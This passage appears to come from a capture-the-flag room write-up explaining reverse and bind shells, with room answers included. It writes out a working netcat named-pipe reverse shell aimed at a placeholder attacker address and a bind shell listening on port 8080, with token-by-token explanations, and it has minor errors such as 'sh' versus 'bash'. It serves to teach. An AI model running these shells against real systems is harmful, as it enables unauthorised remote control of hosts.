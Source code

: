 Any port can be used to wait for a connection. Attackers and pentesters tend to use known ports, though: 53, 80, 8080, 443, 139, and 445, among others. This helps blend the reverse shell in with legitimate traffic and avoid detection.

Once the listener is set, the attacker executes a reverse shell _payload_, which abuses the targeted vulnerability or unauthorized access gained by teh attacker and executes a command to expose the shell through the network. There's plenty of tools to accomplish this; see PentestMonkey's list.

Here's a pipe reverse shell: `rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc (ATTACKER_IP) (ATTACKER_PORT) >/tmp/f`.
- The `rm -f /tmp/f` command removes any existing named pipe files located at `/tmp/f`, letting the script create a new named pipe without conflicts.
- The `mkfifo /tmp/f` command creates a named, first-in-first-out, pipe at `/tmp/f`. This allows for two-way communication between processes, which in our case creates an input and output mechanism.
- `cat /tmp/f` reads data from the named pipe, and will wait for input that can be sent through the pipe.
- `| bash -i 2>&1` takes the output of `cat` and pipes it to a shell instance, letting the attacker execute commands interactively. Specifically, `2>&1` redirects standard error to standard output, ensuring error messages are sent back to the attacker.
- `| nc (ATTACKER_IP) (ATTACKER_PORT)` pipes the shell's output through `nc` to the attacker's IP address over the specified port.
- `>/tmp/f` sends the output of the commands back into the named pipe for bidirectional (two-way) communications.

This exposes the `bash` shell, in effect, to the desired listener. Onec this payload is executed, the attacker will receive a reverse shell in their `netcat` prompt, letting them execute commands as if they were logging in to a regular terminal on the target OS.

**[Task 3, Question 1] What type of shell allows an attacker to execute commands remotely after the target connects back?** - reverse shell

**[Task 3, Question 2] What tool is commonly used to set up a listener for a reverse shell?** - `netcat`

## [Task 4] Bind Shell

A bind shell binds a port on the compromised system and listens for a connection; when the connection happens, it will expose the shell session so the attacker can run commands remotely. This is good when a target will not permit outgoing connections, but this tends to be less popular since it needs to remain active and listening for connections - this can result in detection.

A bind shell can be created with a command like this: `rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f`.
- The `rm -f /tmp/f` command removes any existing named pipe file located at `/tmp/f`, ensuring a named pipe can be made.
- The `mkfifo /tmp/f` command creates a named FIFO pipe at `/tmp/f`, allowing for two-way communiation (in this case, creating an input-output conduit).
- `cat /tmp/f` is used to read data from a named pipe. It waits for input that can be sent through the pipe.
- `| bash -i 2>&1` will pipe the output of `cat` to a shell instance (`bash -i`), letting the attacker execute commands remotely. The use of `2&1` ensures that error messages are sent back to the attacker.
- `| nc -l 0.0.0.0 8080` starts netcat in listen mode on all interfaces and port 8080, which will expose the shell to the attacker once they are connected to the port.
- `>/tmp/f` sends the commands' output back into the named pipe, allowing for bidirectional communication.
